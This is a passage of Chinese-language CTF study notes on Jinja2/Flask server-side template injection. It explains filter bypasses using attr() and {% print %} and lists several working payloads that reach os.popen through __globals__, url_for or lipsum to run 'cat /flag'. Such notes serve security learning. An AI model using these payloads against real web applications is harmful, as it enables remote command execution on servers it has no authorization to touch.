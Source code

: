 > attr用于获取变量
>
> ```python
> ""|attr("__class__")   <==>  "".__class__   #注意哦 是带 . 的  所以 _ 和 . 被过滤都可以用它来bypass
> ```
>
> 而这个里面还能套request，那么操作空间就很大了

> {{ }} 与 {% %}的区别是后者没有回显，所以加一个**print**就一样啦

还有一些很厉害的bypass技巧在ctfshow里面的题都用到且细致的解释了就不在这边重复放了
下面就放一些刷题过程中遇到的新思路吧

## 常见通用payload

```
{{x.__globals__['__builtins__']['eval']("__import__('os').popen('cat /flag').read()")}}
or
{{x.__init__.__globals__['__builtins__'].eval("__import__('os').popen('cat /flag').read()")}}
or
{{url_for.__globals__.os.popen('cat /flag').read()}} 这种方法的特点是不需要中括号
#遇到一题前面必须要是 url_for 不理解
or
{{x.__init__.__globals__.__getitem__('__builtins__').eval('__import__('os').popen('cat /flag').read()')}}
同上不需要中括号
or
{{lipsum.__globals__['os'].popen('cat /flag').read()}}
#也可用于得到__builtins__
```



## 参考链接

[SSTI/沙盒逃逸详细总结](https://www.anquanke.com/post/id/188172)

[y4_SSTI模板注入及绕过姿势(基于Python-Jinja2)](https://blog.csdn.net/solitudi/article/details/107752717?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166199766616780357264175%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166199766616780357264175&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-1-107752717-null-null.nonecase&utm_term=ssti&spm=1018.2226.3001.4450)

[yu22x_SSTI模板注入绕过(进阶篇)](https://blog.csdn.net/miuzzx/article/details/110220425?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522166201977016781647565661%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fblog.%2522%257D&request_id=166201977016781647565661&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~blog~first_rank_ecpm_v1~rank_v31_ecpm-2-110220425-null-null.nonecase&utm_term=ssti&spm=1018.2226.3001.4450)

[合天网安师傅讲的很详细](https://blog.csdn.net/qq_38154820/article/details/111399386)

[ SSTI(模板注入)漏洞(入门篇)](https://www.cnblogs.com/bmjoker/p/13508538.html)

[flask文档](https://flask.net.cn/)

## 例题
